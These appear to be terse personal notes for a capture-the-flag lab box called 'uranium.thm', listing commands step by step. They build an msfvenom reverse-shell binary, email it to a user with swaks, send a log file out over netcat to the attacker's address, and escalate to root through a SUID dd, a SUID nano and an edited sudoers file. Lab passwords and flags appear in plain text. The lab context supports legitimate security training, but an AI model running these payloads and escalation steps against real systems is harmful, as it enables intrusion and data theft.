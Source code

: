nmap -sV -sC -Pn -oN scans/nmapsVsC 10.10.135.176

sudo vim /etc/hosts
(sudo echo '10.10.135.176   uranium.thm' >> /etc/hosts)

msfvenom
msfvenom --list payloads
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.18.78.209 LPORT=12345 -f elf -o application

nc -lnvp 12345

swaks -s 10.10.135.176 --attach application
  - To: hakanbey

:~sh$ ls -la /var/log

nc -lnvp 12346 > hakanbey_network_log.pcap

:~sh$ nc -w 3 10.18.78.209 12346 < /var/log/hakanbey_network_log.pcap

wireshark hakanbey_network_log.pcap &
  - Follow TCP stream
  - copy password / flag
    - MBMD1vdpjg3kGv6SsIz56VNG

:~sh$ ./chat_with_kral4
  - MBMD1vdpjg3kGv6SsIz56VNG
  - hi
  - good
  - yes
    - copy user password / flag
      - Mys3cr3tp4sw0rD

ssh hakanbey@uranium.thm

hakanbey@uranium.thm$ cat user_1.txt
  - copy flag
    - thm{2aa50e58fa82244213d5438187c0da7c}

scp ../../../HTB/machines/paper/linpeas-03-24-22-b3eefad3feb2469581b92f7043db5c348e9e5b7d.sh hakanbey@uranium.thm:/home/hakanbey/linpeas.sh

hakanbey@uranium.thm$ ./linpeas.sh
...
╔══════════╣ SUID - Check easy privesc, exploits and write perms
...
-rwsr-x--- 1 web kral4 75K Apr 23  2021 /bin/dd

hakanbey@uranium.thm$ sudo -l

hakanbey@uranium.thm$ sudo -u kral4 /bin/bash

kral4@uranium.thm$ cat user_2.txt
  - copy flag
    - thm{804d12e6d16189075db2d45449aeda5f}

kral4@uranium.thm$ cat /var/mail/kral4

kral4@uranium.thm$ ls -la /var/www/html

kral4@uranium.thm$ cd /var/www/html

kral4@uranium.thm$ /bin/dd if=web_flag.txt of=index.html

kral4@uranium.thm$ cat index.html
  - or visit website
  - copy flag
    - thm{019d332a6a223a98b955c160b3e6750a}

kral4@uranium.thm$ cat /var/mail/kral4

kral4@uranium.thm$ cd /home/kral4

kral4@uranium.thm$ which nano

kral4@uranium.thm$ cp /bin/nano .

...
wait for cron script to set SUID on nano in home folder
...

kral4@uranium.thm$ nano /etc/sudoers
  - modify sudoers file to give hakanbey ALL=(ALL:ALL) /bin/bash
    - or something similar
  - ^X
  - Y

kral4@uranium.thm$ sudo -s /bin/bash

root@uranium.thm$ cd /root

root@uranium.thm$ cat root.txt
  - copy flag
    - thm{81498047439cc0426bafa1db5da699cd}


